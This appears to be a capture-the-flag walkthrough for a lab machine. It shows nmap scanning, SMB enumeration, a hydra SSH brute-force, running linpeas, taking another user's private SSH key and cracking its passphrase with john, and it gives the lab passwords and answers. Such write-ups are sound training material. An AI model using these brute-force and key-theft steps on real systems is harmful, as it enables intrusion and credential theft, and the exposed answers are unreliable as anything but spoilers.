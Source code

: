 # Basic Pentesting

## Find the services exposed by the machine

`nmap -sV -sC -A -oN initial.nmap <target-ip>`

Output: 
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## What is the name of the hidden directory on the web server?

`gobuster dir -u http://<target-ip> -w <wordlist>`

> development

Output: `j.txt`
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Output: `dev.txt`
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

## User brute-forcing to find the username & password

`enum4linux -a <target-ip`

We see that there is an **Anonymous** share.

`smbclient //<target-ip>/Anonymous`

Output: `staff.txt`
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

## What is the username?

> jan

## What is the password?

`hydra -l jan -P <rockyou.txt> <target-ip> ssh -V`

> armando

## What service do you use to access the server?

> SSH

## Enumerate the machine to find any vectors for privilege escalation

Download `linpeas.sh` into `/tmp/<folder>` with a `python` webserver, make it executable, and run it.

Interesting output:
```
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
```

Copy the `id_rsa` file into our attack computer. Make sure to set the right permissions! 

`chmod 600 kay_id_rsa`.

## What is the name of the other user you found?

> kay

## If you have found another user, what can you do with this information?

`ssh -i kay_id_rsa kay@<target_ip>` to log in as kay. It seems that this is protected by a passphrase! We will need to use John the Ripper to crack it.

```
ssh2john kay_id_rsa > kay_hash.txt
john --wordlist=<rockyou.txt> kay_hash.txt
```
The passphrase is `beeswax`. Now we can login.

## What is the final password you obtain?

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$